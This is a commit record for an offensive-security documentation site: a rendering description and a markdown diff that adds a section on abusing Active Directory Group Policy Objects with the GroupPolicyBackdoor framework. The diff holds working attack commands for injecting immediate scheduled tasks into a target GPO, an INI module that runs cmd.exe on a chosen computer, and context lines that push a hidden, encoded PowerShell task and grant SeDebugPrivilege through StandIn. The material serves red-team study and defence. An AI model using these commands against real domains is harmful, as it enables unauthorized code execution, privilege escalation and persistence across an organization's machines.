

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/active-directory/ad-adds-group-policy-objects.md, in a window 1280 px wide and 1400 px high, scrolled down 3575 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; before the commit the page ends 4205 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
GPO with GroupPolicyBackdoor

````diff
--- a/docs/active-directory/ad-adds-group-policy-objects.md
+++ b/docs/active-directory/ad-adds-group-policy-objects.md
@@ -104,7 +104,7 @@ Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
 New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments '-NoP -NonI -W Hidden -Enc AAAAAAA...' -Force
 ```
 
-## Abuse GPO with
+## Abuse GPO with StandIn
 
 * [FuzzySecurity/StandIn](https://github.com/FuzzySecurity/StandIn) - StandIn is a small .NET35/45 AD post-exploitation toolkit.
 
@@ -119,6 +119,39 @@ StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivil
 StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args"
 ```
 
+## Abuse GPO with GroupPolicyBackdoor
+
+* [synacktiv/GroupPolicyBackdoor](https://github.com/synacktiv/GroupPolicyBackdoor) - Group Policy Objects manipulation and exploitation framework
+
+```ps1
+# Add Immediate Task to your target GPO
+python3 gpb.py gpo inject --domain 'corp.com' --dc 'ad01-dc.corp.com' -k --module modules_templates/ImmediateTask_create.ini --gpo-name 'TARGET_GPO'
+
+# Clean
+python3 gpb.py gpo clean --domain 'corp.com' --dc 'ad01-dc.corp.com' -k --state-folder 'state_folders/2025_07_15_075047'
+```
+
+**ImmediateTask_create.ini**:
+
+```ps1
+[MODULECONFIG]
+name = Scheduled Tasks
+type = computer
+
+[MODULEOPTIONS]
+task_type = immediate
+program = cmd.exe
+arguments = /c "whoami > C:\Temp\poc.txt"
+
+[MODULEFILTERS]
+filters =
+    [{
+        "operator": "AND",
+        "type": "Computer Name",
+        "value": "ad01-srv1.corp.com"
+    }]
+```
+
 ## References
 
 * [A Red Teamer's Guide to GPOs and OUs - APRIL 2, 2018 - @_wald0](https://wald0.com/?p=179)
````
Also changed, not shown: docs/active-directory/ad-adds-enumerate.md (+2 -0 lines).
